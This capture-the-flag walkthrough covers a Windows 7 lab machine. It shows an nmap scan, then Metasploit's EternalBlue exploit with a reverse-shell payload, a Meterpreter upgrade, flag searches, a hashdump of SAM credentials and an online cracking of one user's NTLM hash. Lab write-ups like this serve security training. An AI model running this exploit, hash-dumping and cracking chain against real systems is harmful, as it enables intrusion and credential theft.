# Steps to Capture the Flags

## 1. Scan the Target

Performed a network scan and identified the target as a **Windows 7 Professional SP1** machine with **port 445 (SMB)** open.

**Command:**

```bash
# nmap -sV -p- -A <ip_address>
```

**Result:**
Target: Windows 7 Professional SP1, SMB service on port 445.

---

## 2. Launch Metasploit and Select Exploit

Started the Metasploit console and selected the EternalBlue exploit module.

**Command:**

```text
use exploit/windows/smb/ms17_010_eternalblue
```

---

## 3. Configure the Exploit

Set the target IP address and the reverse shell payload.

**Command:**

```text
set RHOSTS 10.10.211.69
set payload generic/shell_reverse_tcp
```

---

## 4. Execute the Exploit

Launched the exploit, which resulted in a command shell on the target running as `NT AUTHORITY\SYSTEM`.

**Command:**

```text
exploit
```

**Result:**
Obtained a command shell (high-privilege, NT AUTHORITY\SYSTEM).

---

## 5. Find Flag 3 (Initial Shell)

Navigated to the user's Documents folder and listed contents to locate `Flag3.txt`.

**Commands:**

```text
cd C:\Users\Jon\Documents
dir
```

**Result:**
Found `Flag3.txt`.

---

## 6. Upgrade the Shell to Meterpreter

Upgraded the basic command shell (session 1) to a Meterpreter session for more advanced post-exploitation functionality.

**Command:**

```text
sessions -u 1
```

---

## 7. Find Flags 1 and 2 (Meterpreter)

Within the Meterpreter session, used the search functionality to locate the remaining flag files across the filesystem.

**Commands:**

```text
search -f flag2.txt
search -f flag1.txt -d c:\
```

**Result:**
Located `flag1.txt` and `flag2.txt` in their respective locations.

---

## 8. Read Flag 1 (Meterpreter)

Displayed the contents of the first flag file.

**Command:**

```text
cat flag1.txt
```

**Result:**
Contents of `flag1.txt` shown.

---

## 9. Dump Credentials (Meterpreter)

Extracted NTLM password hashes for local users from the SAM database.

**Command:**

```text
hashdump
```

**Result:**
Obtained NTLM hashes for local users.

---

## 10. Crack Password (Online Service)

Submitted the NTLM hash for the user `Jon` (`FFb43f0de35be4d9917ac0cc8ad57f8d`) to an online cracking service to recover the plaintext password.

**Action:**

* Submitted hash to an online password-cracking service (user-provided action).

**Result:**
Obtained plaintext password from the cracking service (per user workflow).

